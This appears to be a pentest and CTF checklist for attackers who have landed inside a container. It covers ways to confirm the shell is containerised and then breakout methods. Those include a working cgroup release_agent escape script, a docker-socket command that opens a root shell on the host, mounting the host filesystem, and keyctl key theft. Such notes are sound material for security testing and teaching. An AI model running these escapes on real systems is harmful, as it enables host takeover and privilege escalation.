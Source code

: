 # Attackers - Compromised Container Checklist

A list of things you can try if you're doing a CTF/Pentest/Bug bounty and find yourself in a container.

## Confirming you're in a container.

### Docker

- `ls -al /.dockerenv` - If this file exists, it's a strong indication you're in a container
- `ps -ef` - Not a definitive tell, but if there are no hardware management processes, it's a fair bet you're in a container
- `ip addr` - Again not definitive, but `172.17.0.0/16` is the default docker network, so if all you have is network stats, this is useful
- `ping host.docker.internal` - should respond if you're in a docker container

### Tools for checking

- Run [amicontained](https://github.com/genuinetools/amicontained)

## Breaking out

### High level areas

- File mounts. What information can you see from the host
- Granted Capabilities. Do you have extra rights
- Kernel version. Is it a really old kernel which has known exploits.

### Tooling

[tools list here](../general_information/tools_list.md)

### Manual breakout - privileged containers

If you find out from amicontained or similar that you are in a privileged container, some ways to breakout

From [this tweet](https://twitter.com/_fel1x/status/1151487051986087936) this is a shell script which runs commands on the underlying host from a privileged container.

```bash
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;echo "#!/bin/sh
$1 >$t/o" >/c;chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```

save it as `escape.sh` and you can use it like

```bash
./escape.sh ps -ef
```

Another approach for privileged containers is just to mount the underlying root filesystem. Run the `mount` command to get a list of filesystems. Usually files like `/etc/resolv.conf` are mounted off the underlying node disk, so just find that disk and mount the entire thing under something like `/host` and it'll provide edit access to the node filesystem

### Manual breakout - Access to the Docker socket

If the tooling suggests that the Docker socket is available at `/var/run/docker.sock` then you can just get the docker CLI tool and run any docker command. To breakout use :-

* `docker run -ti --privileged --net=host --pid=host --ipc=host --volume /:/host busybox chroot /host` - From [this](https://zwischenzugs.com/2015/06/24/the-most-pointless-docker-command-ever/) post. This will drop you into a root shell on the host.

## Other Avenues of attack

Avenues of attack that aren't directly related to breaking out of the container

### keyctl-unmask

As described in [this post](https://www.antitree.com/2020/07/keyctl-unmask-going-florida-on-the-state-of-containerizing-linux-keyrings/) it may be possible to get keys from the kernel keyring on a Docker host, and use those for breakouts or other access to the host or related machines.

